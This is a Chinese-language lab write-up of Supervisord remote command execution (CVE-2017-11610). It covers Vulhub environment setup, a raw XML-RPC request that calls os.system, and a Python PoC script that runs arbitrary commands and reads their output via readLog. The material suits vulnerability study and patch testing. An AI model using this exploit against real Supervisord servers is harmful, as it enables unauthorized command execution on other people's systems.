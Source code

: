 # Supervisord 远程命令执行漏洞 CVE-2017-11610

## 漏洞描述

Supervisord是一款Python开发，用于管理后台应用（服务）的工具，其角色类似于Linux自带的Systemd。

参考链接：

- https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html
- https://blogs.securiteam.com/index.php/archives/3348
- https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b

## 环境搭建

Vulhub执行以下命令启动环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:9001`即可查看Supervisord的页面。

**启动时遇到错误exec user process caused "no such file or directory"的解决方法 **

可能遇到如下错误：

![image-20220302143005976](images/202203021430024.png)

错误原因：

`docker-entrypoint.sh`中最后一行的结束符成了`\r\n` 导致Docker镜像中的Linux Shell脚本文件无法执行。Linux/Mac的结束符是`\n`，所以Shell解释器会将脚本文件中的`\r`作为命令行的一部分来执行。这就是出现 “no such file or directory” 的原因。

解决方式：

通过`dos2unix docker-entrypoint.sh`命令将其转换成为unix格式文件。

## 漏洞复现

直接执行任意命令：

```
POST /RPC2 HTTP/1.1
Host: your-ip:9001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/awesome_poc</string>
</param>
</params>
</methodCall>
```

![image-20220302143654919](images/202203021436012.png)

命令`touch /tmp/awesome_poc`执行成功：

![image-20220302143616511](images/202203021436578.png)

### 关于直接回显的POC

@Ricter 在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC： [poc.py](https://github.com/vulhub/vulhub/blob/master/supervisor/CVE-2017-11610/poc.py)，直接贴出来吧：

```python
#!/usr/bin/env python3
import xmlrpc.client
import sys


target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):])
```

使用Python3执行并获取结果：`./poc.py "http://your-ip:9001/RPC2" "command"`：

![image-20220302144156140](images/202203021441167.png)

